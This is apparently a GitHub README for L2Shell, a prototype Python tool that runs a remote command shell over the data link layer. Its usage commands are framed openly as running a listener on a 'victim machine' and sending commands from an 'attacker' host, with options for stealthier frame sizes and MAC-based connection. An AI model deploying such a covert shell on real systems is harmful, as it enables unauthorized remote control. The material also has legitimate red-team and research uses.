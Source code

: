 # L2Shell
L2Shell is an opensource tool used for communications via data link layer.
This script should work for both windows and linux systems.

### Usage
```
python l2shell.py -h
```

### On victim machine:
```
python l2shell.py -l -a <attacker_id> -s <session_id>
```

### On Attacker machine
```
python l2shell.py -c -a <attacker_id> -s <session_id>
```

### Sending command (from attacker host)
```
attacker_id> <command>
```

### Changing framesize (victim)
```
python l2shell.py -l -f <frame_size> -a <attacker_id> -s <session_id>
```

### Changing chunked request delay (victim)
```
python l2shell.py -l -d <delay> -a <attacker_id> -s <session_id>
```

### Connect to Victim via Mac address - Victim responds with broadcasts
```
python l2shell.py -c -m <aa:aa:aa:aa:aa:aa> -a <attacker_id> -s <session_id>
```

`note: commands and readme are temporary for the prototype`
